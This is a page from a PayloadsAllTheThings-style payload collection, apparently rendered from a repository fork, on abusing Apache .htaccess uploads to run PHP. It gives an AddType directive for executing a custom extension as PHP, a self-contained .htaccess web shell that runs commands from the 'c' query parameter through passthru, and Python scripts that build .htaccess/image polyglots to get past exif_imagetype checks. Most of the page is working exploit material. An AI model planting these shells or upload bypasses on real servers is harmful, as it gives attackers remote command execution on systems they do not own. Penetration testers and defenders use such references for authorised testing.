

repository: pchabermann/PayloadsAllTheThings · page: Upload Insecure Files/Configuration Apache .htaccess/index.html · generator: mkdocs

# .htaccess

Uploading an .htaccess file to override Apache rule and execute PHP.
"Hackers can also use “.htaccess” file tricks to upload a malicious file with any extension and execute it. For a simple example, imagine uploading to the vulnerable server an .htaccess file that has AddType application/x-httpd-php .htaccess configuration and also contains PHP shellcode. Because of the malicious .htaccess file, the web server considers the .htaccess file as an executable php file and executes its malicious PHP shellcode. One thing to note: .htaccess configurations are applicable only for the same directory and sub-directories where the .htaccess file is uploaded."

## Summary

* [AddType Directive](#addtype-directive)
* [Self Contained .htaccess](#self-contained-htaccess)
* [Polyglot .htaccess](#polyglot-htaccess)
* [References](#references)

## AddType Directive

Upload an .htaccess with : `AddType application/x-httpd-php .rce`
Then upload any file with `.rce` extension.

## Self Contained .htaccess

```python
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directives from the .htaccess file
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

## Polyglot .htaccess

If the `exif_imagetype` function is used on the server side to determine the image type, create a `.htaccess/image` polyglot.

[Supported image types](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants) include [X BitMap (XBM)](https://en.wikipedia.org/wiki/X_BitMap) and [WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format). In `.htaccess` ignoring lines starting with `\x00` and `#`, you can use these scripts for generate a valid `.htaccess/image` polyglot.

* Create valid `.htaccess/xbm` image

    ```python
    width = 50
    height = 50
    payload = '# .htaccess file'

    with open('.htaccess', 'w') as htaccess:
        htaccess.write('#define test_width %d\n' % (width, ))
        htaccess.write('#define test_height %d\n' % (height, ))
        htaccess.write(payload)
    ```

* Create valid `.htaccess/wbmp` image

    ```python
    type_header = b'\x00'
    fixed_header = b'\x00'
    width = b'50'
    height = b'50'
    payload = b'# .htaccess file'

    with open('.htaccess', 'wb') as htaccess:
        htaccess.write(type_header + fixed_header + width + height)
        htaccess.write(b'\n')
        htaccess.write(payload)
    ```
